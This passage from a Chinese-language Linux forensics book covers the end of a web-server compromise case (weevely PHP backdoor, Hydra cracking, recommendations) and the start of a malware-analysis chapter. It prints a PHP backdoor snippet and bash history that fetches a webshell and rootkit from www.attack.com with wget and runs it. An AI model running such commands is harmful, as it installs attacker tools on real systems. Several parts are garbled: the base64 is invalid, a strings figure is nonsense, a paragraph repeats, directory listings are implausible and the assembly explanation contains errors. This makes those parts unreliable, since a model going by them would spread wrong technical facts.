内存分析显示了隐藏目录 `/usr/local/mysql/hacked` 的存在。在 `/usr/local/mysql` 下执行 `ls -al` 命令发现了一些有趣的东西。另一个隐藏目录 `/usr/local/mysql/.weepy` 是在 Web 活动后不久创建的。同一目录下的 `.bashrc` 和 `.bash_logout` 文件显示了密码“hacked”。这些结果如图 9.20 所示。


### 图 9.20

安装 SSH 后门的证据。

```php
<?php

$a=base64_decode('c29ja2V0X3N0cm99X');

$b=base64_decode('c3Bjb2Q=');

$c=base64_decode('jbWuL3Q=');

$u='hacked';

$h='127.0.0.1';

$p=22;

$s=@socket_create($a,base64_decode('RF3Q='),$c));

@socket_connect($s,$h,$p);

fwrite($s,$_POST['cmd']);

fclose($s);?>
```

图 9.22 来自 weevely PHP SSH 后门的的混淆 PHP 代码。

如果你观察得仔细，你会发现 weevely 的密码“hacked”嵌入在这段代码中，这段代码也经过了混淆。

对时间的进一步分析显示，Hydra 在 5 月 4 日运行了多次。网络管理员在怀疑出现问题后，创建的一些数据包捕获也得到了分析。在该捕获中，似乎对端口 44965 上的 dropbear 后门进行了测试，但大多数流量似乎直接来自端口 22。这些部分流量显示在图 9.23 中。


### 图 9.23

从 PAS 主题系统捕获的部分流量。底部的四个数据包似乎是对 dropbear 后门的测试。该捕获中的其余数据包位于正常的 SSH 端口 22 上。

运行查询 `select * from logins order by start;` 的部分结果如图 9.24 所示。高亮的条目位于泄露发生的时间点。对这些信息的完整分析显示，只有 John 和 Michael 登录了系统。这表明要么 John 的密码已经泄露，要么攻击者没有直接登录。收集到的其他证据指向后者。


### 图 9.24

运行此失败登录查询 `select * from login_fails order by start;` 呈现了不同的情况。在 5 月 3 日 23:07:54 之前，John 有长串的失败登录尝试。结合 John 在当天 23:10:11 的成功远程登录，看起来 John 的账户似乎被攻破了。失败登录如图 9.25 所示。在这一阶段，初始攻破似乎是 Web 服务器漏洞的结果。一旦攻击者得手之机，就执行了额外的攻击，导致至少有一个密码被破解。


### 图 9.25

失败登录尝试。失败尝试反复发生直到 23:07:54。参考信息图 9.24 表明密码已泄露。

虽然 `.bash_history` 文件中的 bash 历史没有像 Volatility 的历史那样带有时间戳，但它仍然提供有用信息。如图 9.26 所示，John 的账户被用于下载并安装两个我们尚未发现的 rootkit。第一个名为 Poison 的 Web Shell，安装在 Web 服务器上并名为 `index2.php`。第二个称为 RK。

```bash
$ /usr/bin/bash $ cd /etc/query
$ /home/john/bash $ ls -la
$ /home/john/bash $ cat /etc/motd
$ /home/john/bash $ cd /tmp
$ /home/john/bash $ wget http://www.attack.com/php/webshell/2.php/index2.php -o /var/www/html/index2.php
$ /home/john/bash $ cd /tmp
$ /home/john/bash $ ls -la
$ /home/john/bash $ cat index2.php
$ /home/john/bash $ cd /tmp
$ /home/john/bash $ wget http://www.attack.com/rootkit/rk.tar.gz -o /tmp/rk.tar.gz
$ /home/john/bash $ tar -xzf /tmp/rk.tar.gz
$ /home/john/bash $ cd /tmp
$ /home/john/bash $ ls -la
$ /home/john/bash $ ./rk
```

### 图 9.26

安装两个额外 rootkit 的证据。

文档根目录下的 PHP 文件列表以及 `index2.php` 文件的开头如图 9.27 所示。`index2.php` 声称是 Doddy Hackman 编写的 Poison Shell 1.0。注意 `index2.php` 的时间戳是 2013 年，与目前发现的某些未修改时间戳的恶意软件不同。


### 图 9.27

Poison Shell 1.0 已安装在目标系统的证据。我们看到一个名为 ".rk" 的隐藏目录，用于存储 RK rootkit。由于我们挂载了目标文件系统，我们可以使用命令 `find -type d -name ".*"` 来定位所有隐藏目录。在目标系统运行该命令的结果如图 9.28 所示。注意 ".rk" 目录未列出。该目录可能在之后被删除了。此外，没有发现新的可疑目录。

```
/usr/local/sbin
/usr/local/bin
/usr/local/lib
/usr/local/lib64
/usr/local/etc
/usr/local/var
/usr/local/tmp
/usr/local/opt
/usr/local/root
/usr/local/home
/usr/local/user
/usr/local/dev
/usr/local/run
/usr/local/proc
/usr/local/boot
/usr/local/media
/usr/local/lost+found
/usr/local/sbin
/usr/local/sbin
/usr/local/sbin
```


图 9.28
目标系统上的隐藏目录。

### 杂项发现

在 `/sbin` 目录运行 `out-of-sequence-inodes.sh` 没有任何结果。在我们的第一个案例中，在 `/bin` 目录运行此脚本可以很容易看到 rootkit。该命令的输出输出如图 9.29 所示。

```
20477 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20478 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20479 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20480 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20481 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20482 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20483 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20484 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20485 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20486 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20487 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20488 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20489 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20490 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20491 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20492 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20493 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20494 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20495 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20496 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20497 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20498 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20499 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20500 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20501 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20502 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20503 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20504 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20505 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20506 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20507 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20508 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20509 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20510 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20511 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20512 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20513 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20514 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20515 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20516 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20517 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20518 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20519 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20520 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20521 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20522 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20523 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20524 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20525 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20526 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20527 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20528 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20529 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20530 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20531 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20532 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20533 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20534 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20535 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20536 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20537 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20538 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20539 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20540 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20541 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20542 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20543 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20544 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20545 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20546 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20547 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20548 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20549 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20550 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20551 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20552 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20553 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20554 drwxr-xr-x 2 root root 4096 Jan 15 22:00

20555 drwxr-xr-x 2 root root 4096 Jan 15 22:00
```


```
20556 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20557 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20558 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20559 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20560 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20561 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20562 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20563 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20564 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20565 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20566 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20567 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20568 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20569 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20570 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20571 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20572 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20573 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20574 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20575 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20576 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20577 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20578 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20579 drwxr-xr-x 2 root root 4096 Jan 15 22:00
20580 drwxr-xr-x 2 root root 4096 Jan 15 22:00
```


### 图 9.29

最近添加的根部包的乱序节点。

在你通知 Potslar 博士后，他会将此信息转给网页管理员。随后，网页管理员在一位最近加入的本地开放网络应用程序安全项目 (OWASP) 分会朋友的帮助下查看了这些代码。他们发现了该页面存在一个代码执行漏洞。

### 发现总结与后续步骤

你现在准备好为 PAS 编写报告了。你的报告通常应该包含一份不到一页的执行摘要、一段没有未解释术语的叙述，以及具体的建议和后续步骤（如果合理的话，可以包含优先级级别）。任何原始工具输出都应该放在报告末尾的附录或附录中（如果有的话）。将所有这些内容（包括工具输出和你的数据库系统）刻成 DVD 可能是有意义的。

你会如何处理目标硬盘和你的镜像？这取决于具体情况。在这种情况下，找到攻击者的机会非常小。即使找到了攻击者，他或她也可能在一个使起诉困难或无法实现的管辖区。如果情况并非如此，考虑到涉及的成本（金钱和时间），诉讼可能是一个糟糕的商业决策。PAS 目标机器上没有存储任何客户信息。公司绝大部分销售发生在各种会议和贸易展会上。想要从网站购买产品的客户被要求致电或发送电子邮件。考虑到这一切，你完全可以将硬盘还给公司。镜像可以保留一段时间，包含镜像及所有其他案件相关文件的备份驱动器费用将包含在发给 PAS 的账单中。

发现总结：

- 5 月 3 日晚上，攻击者利用了 Web 服务器上 `dns-lookup.php` 文件中的一个漏洞。
- 攻击者可能利用获取的访问权限收集有关系统的信息。由于发送到 Web 的参数没有记录在日志中，因此无法获得其具体操作的详细信息。
- 在入侵发生后，使用 John 的账户多次尝试 SSH 登录后（其中许多尝试发生在同一分钟内），攻击者成功登录了 John 的账户。可能使用了像 Hydra 这样的在线密码破解器。攻击者如此迅速地成功，说明 John 的密码很弱。
- 攻击者在系统中安装了至少三个根部包或后门。
- 有证据表明攻击者试图破解其他密码。曾发现过一次 Michael 的账户，这表明他的密码已被破解。在历史文件中发现了一个破解 Sue 密码的命令。由于对她的攻击是否成功，因为她的账户从未用于登录这台机器。
- 攻击者似乎主要通过具有管理员权限的 John 账户通过 SSH 日志进行工作。
- 攻击者创建了一个名为 mysql 的假账户。该账户具有管理员权限。攻击者曾以 Michael 的身份远程登录，然后切换到 mysql 账户。

### 建议：

- 紧急：修复 `dns-lookup.php` 中的漏洞。
- 紧急：所有用户必须更改密码为安全的密码。建议验证新密码不在 `rocky.txt` 密码列表中。
- 重要：检查整个网站是否存在其他漏洞。建议至少检查 OWASP Top 10 列表（https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project）中的所有项目。
- 建议：在新的 Web 服务器上安装 Snort 或入侵检测系统。
- 建议：支持网页管理员努力学习更多安全知识。
- 建议：将 Web 服务器上的账户限制到最少。该服务器上的几个账户似乎未被使用（例如被攻击者针对的 Sue 的账户）。
- 建议：定期审查日志，重点检查 Apache 和 MySQL 日志。初始入侵可能通过此类审查被发现。
- 建议：定期进行渗透测试。如果聘请渗透测试人员在经济上不可行，至少网页管理员或其他 PAS 员工应该熟悉并使用几种 Web 漏洞扫描器。

### 总结

在本章中，我们分析了一次比本书之前讨论的 PFE 攻击稍复杂的攻击。我们发现，无论攻击者的复杂程度如何，都可以采用相同的技术。要获取攻击者行为的全景，需要使用实时分析、内存分析和文件系统分析。我们能够研究已安装的恶意软件以发现其功能。在下一章中，我们将讨论如何分析未知执行文件。我们的对话将包括判断未知文件是否真的是恶意软件。

## 第 10 章

### 恶意软件

本章内容：

- `file` 命令
- 使用哈希数据库识别恶意软件
- 使用 `strings` 收集线索
- `nm` 命令
- `ldd` 命令
- 使用 `readelf` 获取全局视图
- 使用 `objdump` 进行反汇编
- 使用 `strace` 跟踪系统调用
- 使用 `ltrace` 跟踪库调用
- 使用 GNU 调试器 (`gdb`)
- 混淆技术

### 是恶意软件吗？

你在目标机器上发现了攻击者留下的文件。自然地，你想知道它是否是某种恶意软件。你想做的第一件事是对文件进行分类。它是一个可执行文件还是某种数据文件？如果是可执行文件，它是做什么的？它使用了哪些库？它会跨网络连接到攻击者吗？

虽然这不是一本关于 Linux 恶意软件逆向工程的书籍，但本章的信息足以让你区分恶意软件和良文件，并对恶意软件执行的操作获得高层次的理解。从客户的角度来看，他们不在乎恶意软件做了什么，或者程序员使用了多少种技术。这应该是你最关心的问题。在某些情况下，你可能需要对恶意软件进行调查以确定损害程度。

### `file` 命令

与 Windows 愚地使用文件扩展名来判断文件类型不同，Linux 足够智能，可以通过查看签名判断文件类型。Linux `file` 命令向用户显示文件类型。`file` 命令提供的信息不仅限于文件扩展名。

在 PAS 目标系统相关的 Xing Quan 根部包的一些文件上运行 `file` 命令的结果如图 10.1 所示。注意 `file` 能够区分 `install`、`README` 和 `xyi_addr.c` 文件，它们分别是可执行的 Perl 脚本、纯 ASCII 文本和 ASCII 格式的 C 源文件。


图 10.1

在 PAS 目标系统保存的根部包文件上运行 `file` 的结果。

二进制文件提供的信息具体得多。在这里我们看到二进制文件是 64 位可执行链接格式 (ELF) 文件，适用于小端序系统（Linux 就是这样的系统）。它们也是动态链接的，这意味着它们使用共享库，而不是将所有需要的代码静态链接到执行文件中（这会使文件巨大）。该文件兼容内核 2.6.24 及版本。文件未剥离调试信息。每个二进制标识符还给出了安全哈希算法 (SHA) 哈希值。

### 是已知的文件吗？

许多机构维护着已知恶意软件的 MD5 和 SHA 哈希值数据库。自然地，这些哈希值大部分属于“恶意软件之王”Windows，但许多数据库也列出了 Linux 恶意软件。其中一些数据库需要下载，另一些则可以在线访问。可以通过多个服务访问的在线数据库之一是由 Team Cymru 维护的 [恶意软件哈希注册表 (MHR)](http://team-cymru.org/MHR.html)。

MHR 的优点之一之一是它同时使用了 MD5 和 SHA 哈希值。使用 `shashum <filename>` 就可以轻松计算出 SHA 哈希值。可能使用 MHR 最简单的方法是通过 `whois` 命令。`whois` 服务通常用于查询域名的信息。使用该服务检查二进制文件的语法为 `whois -h hash.cymru.com <MD5 or SHA hash>`。如果该文件是已知的，系统将返回最后发现的 UNIX 时间戳以及杀毒软件检测百分比。针对其中一个形义文件运行此命令的结果如图 10.2 所示。


图 10.2
在恶意软件哈希注册表中检查二进制文件哈希。

为什么没有返回结果？记住，哈希函数的设计使得改变单个比特位就会剧烈改变哈希值。许多 Linux 恶意软件是在受害者机器上构建的，这使得很容易将密码和地址等值硬编码，同时改变任何哈希值。

美国国家标准与技术研究院 (NIST) 维护着一个名为国家软件参考库 (NSRL) 的大型哈希数据库。目前，该数据库中有有 4000 万个 MD5 哈希值。NSRL 每年更新四。为了避免下载这个 6GB 的巨型数据库并获取更频繁的更新，设立了一个查询服务器。

使用 NSRL 查询服务器需要安装名为 `nsrllookup` 的程序。可以通过以下 GitHub URL 获取该程序：https://github.com/rjhansen/nsrllookup/archive/v1.2.3.tar.gz。该程序非常易用。只需将 MD5 哈希值管道传输给它，例如：`md5sum <suspicious file> | nsrllookup`。如果哈希值未知，它会回显给你。如果你只想看到已知的哈希值，请添加 `-k` 标记。对一组文件运行 `nsrllookup` 的结果如图 10.3 所示。


### 图 10.3

对文件列表运行 `nsrllookup`。此目录中的文件不在 NSRL 中，这通过运行带有 `-k` 关的 `nsrllookup` 可以看出。

NSRL 包含已知文件，包括好的和坏的。如果你命中，你需要从 NSRL 网站获取详细信息，以判断文件是恶意的还是良好的。这些查询可以在 http://www.hashsets.com/nsrl/search 进行。一个良好的 Linux 二进制文件示例如图 10.4 所示。


图 10.4
NSRL 参考数据集 (RDS) 中已知 Linux 二进制文件的条目。

### 使用 strings

在大多数情况下，你的文件不会列在 MHR 或 NSRL 中。如果你有大量可疑文件，这些数据库最适合用于缩小待检查文件的范围。`strings` 工具会搜索二进制文件中的 ASCII 文本并显示其找到的内容。该命令的语法为 `strings -a <suspicious file>`。运行命令 `strings -a xingyi_bindshell` 的部分结果如图 10.5 所示。图中高亮了临时文件的路径和可能可能是密码的内容。


### 图 10.5
对可疑二进制文件运行 `strings`。

你可能想将 `strings` 的输出捕到文件中。任何奇怪且独特的单词，例如 "sw0rdm4n" 和 "xingyi"，都可以用于 Google 搜索。你可能会看到若干格式为 `<function>@@<library>` 的字符串，这可以告诉你代码使用了哪些库函数。只有在没有用 `strip` 移除调试符号时，才能看到这些字符串。运行 `strings xingyi_bindshell | grep @@ | sort` 的结果如图 10.6 所示。

```
ls -l start act
top 7.2
dump 2.2.7
l
page
grep reverse
awk reward
var second
rot name
cat -v to file |n YOUR file portion
man -s part class. with F section
listed to test --exclude!
find file
sed -py -name/
```


### 图 10.6
使用 `strings` 显示函数

### 使用 nm 列出符号

`nm` 工具用于列出对象文件中的符号。通常，小写符号表示本地符号，大写符号表示全局符号。如果文件已经过剥离（stripped），`nm` 将不产生输出。一些常见的类型在表 10.1 中。

| 类型 | 描述 |
|---|---|
| A | 绝对地址 |
| B | 未初始化数据 |
| C | 公共 |
| D | 已初始化数据 |
| G | 全局 |
| N | 未初始化 |
| R | 只读数据 |
| S | 未初始化数据 |
| T | 代码 (文本) |
| U | 未定义 |
| V | 弱符号 |
| W | 弱符号 |
| ? | 未知符号 |

图 10.1
常见的 `nm` 类型。


### 使用 ldd 列出共享库

之前的大部分章节都带有一个前提，即二进制文件已剥离。剥离二进制文件是常见的做法，原因有两个：首先，移除符号可以显著缩小执行文件的体积。其次，剥离文件使得逆向工程变得困难。如果使用了共享库（几乎总是如此），那么程序必须能够找到它们。

`ldd` 的语法简单为 `ldd <binary>`。针对 `xingyi_bindshell` 及其剥离副本运行 `ldd` 的结果如图 10.8 所示。注意结果是相同的。`file` 命令也运行在了其中一个共享库 `libc-2.19.so` 上。该库有两个版本，带有调试符号，另一个没有。

图 10.7

img/7abfab28a493757db3f096946a95ec01_362_0.png)


图 10.8
对二进制文件及其剥离所有符号的同名文件运行 `ldd`。

### 使用 readelf 获取概览

Linux 可执行文件采用可执行和链接格式 `ELF`。ELF 文件是一个对象文件，根据你尝试对它做什么，可以以两种不同的方式查看。图 10.9 显示了这两种视图以及与每种视图相关的文件部分。

### 链接视图

### 执行视图

| ELF Header | | 可选（在此视图中） | 程序头部表 | 描述段 (Segments) |
|---|---|---|---|---|
| | | | | |
| | | | | |
| | | | | |
| 描述节 (Sections)| | 节头部表 | 可选（在此视图中）|

图 10.9

ELF 文件的两种视图。

如图 10.9 所示，所有 ELF 文件都有一个头部。当文件被执行时，会读取紧随后的程序头部表 `PHT`。PHT 描述了文件中的各种段（大数据块）。在链接视图中，会忽略 PHT，并读取文件末尾的节头部表 `SHT`。SHT 描述了文件中的各种节（段的子部分）。

`readelf` 工具用于解析 ELF 文件的不同部分。得益于这个实用的程序，几乎不需要深究 ELF 结构的细节。命令 `readelf --file-header <file>` 将显示头部信息。对 `xingyi_bindshell` 运行此命令的结果如图 10.10 所示。从图中可以看出，这是一个 64 位可执行文件，具有 9 个程序头部和 30 个节头部。所有 ELF 文件都以“幻数字”`0x7F`开头，随后是字符串“ELF”，或者十六进制表示的 `0x7F 0x45 0x4C 0x46`。

图 10.10

`readelf --section-headers <file>` 命令用于显示节信息。运行 `readelf --section-headers -W xingyi_bindshell` 的输出如图 10.11 所示。`-W` 选项指定宽格式（不限制为 80 字符宽）。节在表 10.2 中描述。该文件中的节相当典型。


### 图 10.11

来自 `xingyi_bindshell` 文件的节。

表 10.2. `xingyi_bindshell` 的节。

| 名称 | 描述 |
| --- | --- |
| . | 空节 |
| .interp | 动态链接器名称 |
| .note.ABI-tag | 包含 "GNU" 及后跟架构信息的注释 |
| .note.gnu.build-id | 调试程序和剥离程序通用的唯一 ID（由文件显示） |
| .gnu.hash | 描述哈希表（如果你不知道它是什么，请忽略） |
| .dynym | 动态链接的符号表 |
| .dynstr | 动态链接所需的字符串 |
| .gnu.version | 与 .dynym 对应的符号版本表 |
| .gnu.version_r | 需的符号版本定义 |
| .rela.dyn | .dyn 的重定位信息 |
| .rela.plt | .plt 的重定位信息 |
| .init | 此程序的程序初始化代码 |
| .plt | 过程跳转表 (Procedure Linkage Table) |
| .text | 实际的可执行代码（机器码） |
| .fini | 此程序的终止初始化代码 |
| .rodata | 只读数据 |
| .eh_frame_hdr | 用于访问 .eh_frame 的 C++ 异常处理代码 |
| .eh_frame | 异常处理（异常用于错误处理） |
| .init_array | 启动时调用的初始化代码列表 |
| .fini_array | 终止时调用的终止代码列表 |
| .jcr | 注册编译 Java 类的信息 |
| .dynamic | 动态链接信息 |
| .got | 全局偏移表（用于重定位期间地址解析） |
| .got.plt | 全局偏移表（用于重定位期间地址解析） |
| .data | 初始化数据 |
| .bss | 未初始化数据 |
| .comment | 注释（通常用于版本控制） |
| .shstrtab | 节名称（节头部字符串表） |
| .symtab | 符号表 |
| .srttab | 符号表条目名称 |

如果你不理解 10.2 表描述的所有节，不必过度担心。我认为大多数专业程序员 也不了解所有这些内容。对于我们的目的来说，最重要的的是 `.text`、`.data` 和 `.bss`，它们分别包含程序代码、初始化数据和未初始化数据。我们的文件包含所有这些节，表明该程序是用 C 或类似语言编写的，并使用 `GCC`（GNU 编译器集合）编译的。在理论上，这应该比手工编写的汇编代码更容易进行逆向。

命令 `readelf --program-headers <file>` 用于解析程序头部表 `PHT`。在 `xingyi_bindshell` 上运行此命令的结果如图 10.12 所示。如图所示，大多数段由节列表组成。值得注意的例外是段 00 和 07，它们分别包含程序头部表和栈。这些每个段的描述可以在表 10.3 中找到。PHT 还规定了每个段应该加载的位置以及它所需的字节对齐。

图 10.12

`xingyi_bindshell` 的程序头部表。

| 编号和类型 | 描述 |
|---|---|
| 00 – PHDR | 程序头部表 |
| 01 – INTERP | 动态链接器名称 |
| 02 – LOAD | 需要加载的文件部分 |
| 03 – LOAD | 需要加载的文件部分 |
| 04 – DYNAMIC | 动态链接信息 |
| 05 – NOTE | 注释信息 |
| 06 – GNU_EH_FRAME | 异常处理信息 |
| 07 – STACK | 栈 |
| 08 – RELRO | 只读段 |

如果你不理解 10.2 表描述的所有节，不必过度担心。我认为大多数专业程序员 也不了解所有这些内容。对于我们的目的来说，最重要的的是 `.text`、`.data` 和 `.bss`，它们分别包含程序代码、初始化数据和未初始化数据。我们的文件包含所有这些节，表明该程序是用 C 或类似语言编写的，并使用 `GCC`（GNU 编译器集合）编译的。在理论上，这应该比手工编写的汇编代码更容易进行逆向。

这些寄存器中的一些特殊用途，其余用于执行计算或向函数传递变量。某些寄存器自早期的 16 位处理器（`8086`, `8028`）以来就已经存在，另一些是在发布 32 位处理器（`80386`）时添加的，而还有一些是在 AMD 发布第一 64 位处理器时添加的。标准的 64 位处理器寄存器如图 10.16 所示。旧寄存器根据宽度命名。XX、EXE 和 RXX 分别表示 16 位、32 位和 64 位宽。某些位宽可以进一步划分为 XH 和 XL，分别表示高字节和低字节。以 `RAX` 寄存器为例，`AL`、`EAX` 和 `RAX` 分别代表寄存器的最低两个字节、四个字节和所有八个字节。在查看汇编代码时，你通常会根据需要看到不同的寄存器。

`RIP` 寄存器（或 32 位汇编中的 `EIP`）被称为指令指针。它指向内存中可以找到要运行的下一条指令的地址。`FLAGS` 寄存器用于跟踪比较状态，例如数学运算是否产生了进位。`RBP` 寄存器被称为基指针，它指向当前栈帧的基部（底部）。`RSP` 寄存器称为栈指针，它指向当前栈帧的顶部。那么，什么是栈？

栈帧是栈中与程序当前运行的函数相关的部分。那么，栈到底是什么？栈是一个特殊的内存区域，每当通过汇编 `CALL` 指令调用新函数时，它就会增长，当函数完成时收缩。在 C 和类似的语言中，你会听到人们提到栈变量，这些变量在声明时自动创建，并在代码块结束时消失。这些变量分配在栈上。当你思考函数是什么时，它始终是某种类型的代码块。函数的局部变量通常分配在栈上。

当需要更大的存储空间或变量的生命周期需要超过单个函数时，可以在堆上创建变量。获取堆空间的机制在不同编程语言之间存在。如果你查看操作系统创建堆并向各种进程分配内存的内部机制，实际上相当复杂。

在为了寻找漏洞而对应用程序进行逆工程时，栈和堆在过程中起核心作用。对于我们的目的，只需要理解栈是函数存储局部变量最常见的地方即可。回看图 10.15，你会发现第一条指令 `push rbp` 用于保存当前的基指针（栈的底部）。使用 `mov rsp, rsp` 命令将当前栈指针移动到基指针（注意在英特尔表示中，目标在左侧，源在右侧）。在下一行，通过将 `RBX` 中存储的当前值推入栈来保存。下一行使用 `sub rsp, 0x88` 指令从栈指针减去 `0x88`。


### 图 10.15

使用 `objdump` 反汇编 `xingyi_bindshell` 的部分结果。

你可能会想：“等一下，栈，我为什么要通过减法来增长栈呢？”这是因为栈是向下增长的（从高内存地址到低内存地址）。通过将旧栈指针 `RSP` 移动到基指针 `RBP`，栈帧的顶部变成了新的底部。减去 `0x88` 为当前栈帧分配了 88 字节。该存储空间供当前函数使用。如果你查看图 10.15，你会看到几条 `mov` 指令将值移动到新分配的缓冲区中。所有这些移动的目标都是方括号中的内存地址，它们都在帧 `[rbp-<some offset>]` 中。

在移动指令中，还有一条奇怪的指令 `xor eax,eax`。按位异或 `XOR` 运算符比较两个数中的每一位，如果输入值中其中一个（但不是两个）在该位置为 1，则对应的位结果为 1。任何数字与自身进行异或的效果等于将数字置 0。因此，`xor eax,eax` 等同于 `mov eax,0x0`。做过任何 Shell 编码的读者会意识到使用 XOR 是更优的，因为它可以防止零字节（在很多情况下被解释为 NULL）出现在你正尝试注入的代码中。

在移动指令块之后，我们使用 `call` 指令。在高级语言中，调用函数并传递一堆参数非常简单。然而，有一种约定规定了参数如何进入和离开函数。由于各种技术原因，根据所调用的函数类型使用多种调用约定。32 位系统通常在栈上传递参数（顺序从右到左）。64 位系统通常在寄存器 `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9` 中传递参数，并将任何额外的参数放在栈上（顺序从右到左）。返回值分别存储在 32 位和 64 位系统的 `EAX/EDX` 和 `RAX/RDX` 中。存在多种调用约定的原因之一是某些接受可变参数的函数（如 `printf`）需要不同的调用约定，在这种约定中，调用者必须执行清理工作，因为调用者不知道将传递什么进入函数。

### 10.17

清理主函数末尾的代码。注意，`ret` 指令之后的行可能是数据，而不是图中所示的指令。

返回指令后的字节被 `objdump` 误读为机器码指令了。稍后当我们使用 GNU 调试器 `gdb` 反汇编译程序时，整个程序都将被正确反汇编译。因此，我们在这里延迟生成 `objdump` 的完整输出。

到目前为止，我们讨论的是所谓的静态分析。这本质上是对未运行程序进行的“静态分析”。虽然使用 `objdump` 等工具反汇编译可能会导致某些错误，但它是安全的，因为程序永远不会在取证工作站上执行。如果你的主要目标是判断文件是恶意的还是良，这通常足够了。你完全可以使用 `gdb` 等工具获取未知可执行文件更准确的反汇编译，但注意不要在取证工作站的调试器中运行该程序！

### 动态分析

动态分析涉及实际运行程序以观察其行为。你有许多工具可以用来分析未知程序的行为。在继续之前，我们需要谈谈安全问题。考虑一下：在你的取证工作站上运行一个未知的、可能恶意的程序听起来是个好主意吗？有两个基本选择：要么使用未连接网络且仅用于检查未知文件的空闲硬件，或者使用 `VirtualBox`、`VMware` 或其他虚拟化软件设置虚拟机。

